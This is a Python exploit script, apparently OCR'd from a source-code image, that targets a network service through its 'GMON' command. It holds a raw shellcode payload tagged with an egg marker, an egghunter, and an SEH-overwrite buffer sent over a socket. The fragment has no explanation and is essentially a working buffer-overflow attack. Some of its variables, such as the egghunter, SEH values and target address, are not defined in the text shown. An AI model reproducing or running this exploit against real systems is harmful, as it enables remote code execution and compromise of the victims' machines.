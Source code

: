 ```py
shellcode += b"\xda\xc6\xba\x81\x66\x7a\xf7\xd9\x74\x24\xf4"
shellcode += b"\x5f\x33\xc9\xb1\x52\x31\x57\x17\x03\x57\x17"
shellcode += b"\x83\x6e\x9a\x98\x02\x8c\x8b\xdf\xed\x6c\x4c"
shellcode += b"\x80\x64\x89\x7d\x80\x13\xda\x2e\x30\x57\x8e"
shellcode += b"\xc2\xbb\x35\x3a\x50\xc9\x91\x4d\xd1\x64\xc4"
shellcode += b"\x60\xe2\xd5\x34\xe3\x60\x24\x69\xc3\x59\xe7"
shellcode += b"\x7c\x02\x9d\x1a\x8c\x56\x76\x50\x23\x46\xf3"
shellcode += b"\x2c\xf8\xed\x4f\xa0\x78\x12\x07\xc3\xa9\x85"
shellcode += b"\x13\x9a\x69\x24\xf7\x96\x23\x3e\x14\x92\xfa"
shellcode += b"\xb5\xee\x68\xfd\x1f\x3f\x90\x52\x5e\x8f\x63"
shellcode += b"\xaa\xa7\x28\x9c\xd9\xd1\x4a\x21\xda\x26\x30"
shellcode += b"\xfd\x6f\xbc\x92\x76\xd7\x18\x22\x5a\x8e\xeb"
shellcode += b"\x28\x17\xc4\xb3\x2c\xa6\x09\xc8\x49\x23\xac"
shellcode += b"\x1e\xd8\x77\x8b\xba\x80\x2c\xb2\x9b\x6c\x82"
shellcode += b"\xcb\xfb\xce\x7b\x6e\x70\xe2\x68\x03\xdb\x6b"
shellcode += b"\x5c\x2e\xe3\x6b\xca\x39\x90\x59\x55\x92\x3e"
shellcode += b"\xd2\x1e\x3c\xb9\x15\x35\xf8\x55\xe8\xb6\xf9"
shellcode += b"\x7c\x2f\xe2\xa9\x16\x86\x8b\x21\xe6\x27\x5e"
shellcode += b"\xe5\xb6\x87\x31\x46\x66\x68\xe2\x2e\x6c\x67"
shellcode += b"\xdd\x4f\x8f\xad\x76\xe5\x6a\x26\x73\xef\x75"
shellcode += b"\xbb\xeb\x0d\x75\xc7\x39\x98\x93\xad\xad\xcd"
shellcode += b"\x0c\x5a\x57\x54\xc6\xfb\x98\x42\xa3\x3c\x12"
shellcode += b"\x61\x54\xf2\xd3\x0c\x46\x63\x14\x5b\x34\x22"
shellcode += b"\x2b\x71\x50\xa8\xbe\x1e\xa0\xa7\xa2\x88\xf7"
shellcode += b"\xe0\x15\xc1\x9d\x1c\x0f\x7b\x83\xdc\xc9\x44"
shellcode += b"\x07\x3b\x2a\x4a\x86\xce\x16\x68\x98\x16\x96"
shellcode += b"\x34\xcc\xc6\xc1\xe2\xba\xa0\xbb\x44\x14\x7b"
shellcode += b"\x17\x0f\xf0\xfa\x5b\x90\x86\x02\xb6\x66\x66"
shellcode += b"\xb2\x6f\x3f\x99\x7b\xf8\xb7\xe2\x61\x98\x38"
shellcode += b"\x39\x22\xb8\xda\xeb\x5f\x51\x43\x7e\xe2\x3c"
shellcode += b"\x74\x55\x21\x39\xf7\x5f\xda\xbe\xe7\x2a\xdf"
shellcode += b"\xfb\xaf\xc7\xad\x94\x45\xe7\x02\x94\x4f"

egg = "w00tw00t" + shellcode

fuzz = egg + "A" * (3515 - len(egg) - len(egghunter) - 5) + egghunter + "A" * 5
remain = "D" * (4100 - 3547 - len(nseh) - len(seh))

buffer = fuzz + nseh + seh + remain

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip,port))
    s.send(('GMON /.:/' + buffer))
    print "[+] Sending buffer"
    s.close()
except:
    print "[-] Failed!"
    sys.exit()

```
